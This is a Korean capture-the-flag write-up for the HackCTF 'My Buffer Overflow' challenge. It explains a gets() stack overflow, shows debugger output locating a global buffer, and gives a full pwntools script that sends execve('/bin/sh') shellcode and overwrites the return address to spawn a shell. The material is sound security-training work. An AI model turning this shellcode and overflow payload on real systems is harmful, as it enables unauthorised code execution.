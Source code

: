 ```yaml
---


---
```


<h1 id="hackctfmy-buffer-overflow">HackCTF:My Buffer Overflow</h1>
<h2 id="section">2019-08-09</h2>
<pre><code>int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name : ");
  read(0, &amp;name, 0x32u);
  printf("input : ");
  gets(&amp;s);
  return 0;
}
</code></pre>
<p><code>read()</code> 함수로 50byte 만큼 name 배열에 입력 받은 후 <code>gets()</code>함수로 20byte의 배열 s에 입력을 받는다.<br>
추측한 공격 방법으론 name배열에 <code>system("/bin/bash")</code> 의 쉘 코드를 입력한 뒤 gets()함수로 그 쉘코드를 실행 시키는 것이다.</p>
<pre><code>─────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────
   0x80484fb &lt;main+48&gt;    call   read@plt &lt;0x8048370&gt;
 
 ► 0x8048500 &lt;main+53&gt;    add    esp, 0xc
   0x8048503 &lt;main+56&gt;    push   0x80485b8
   0x8048508 &lt;main+61&gt;    call   printf@plt &lt;0x8048380&gt;
 
   0x804850d &lt;main+66&gt;    add    esp, 4
   0x8048510 &lt;main+69&gt;    lea    eax, [ebp - 0x14]
   0x8048513 &lt;main+72&gt;    push   eax
   0x8048514 &lt;main+73&gt;    call   gets@plt &lt;0x8048390&gt;
 
   0x8048519 &lt;main+78&gt;    add    esp, 4
   0x804851c &lt;main+81&gt;    mov    eax, 0
   0x8048521 &lt;main+86&gt;    leave  
──────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────
00:0000│ esp  0xffffcf88 ◂— 0x0
01:0004│      0xffffcf8c —▸ 0x804a060 (name) ◂— inc    ecx /* 0x41414141; 'AAAA\n' */
02:0008│      0xffffcf90 ◂— 0x32 /* '2' */
</code></pre>
<p>함수 <code>read()</code>로 받는 부분 뒤를 break하여 "AAAA"를 입력한 뒤 스택을 관찰했다.<br>
0x804a060에 name 배열이 위치해 있으며 "AAAA"가 성공적으로 들어갔다.</p>
<pre><code>from pwn import *
p = remote('ctf.j0n9hyun.xyz', 3003)

name_address = 0x804a060
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

print p.recvuntil(": ")
p.sendline(shellcode)

payload = ''
payload += "A" * 24
payload += p32(name_address)

print p.recvuntil(": ")
p.sendline(payload)

p.interactive()
</code></pre>

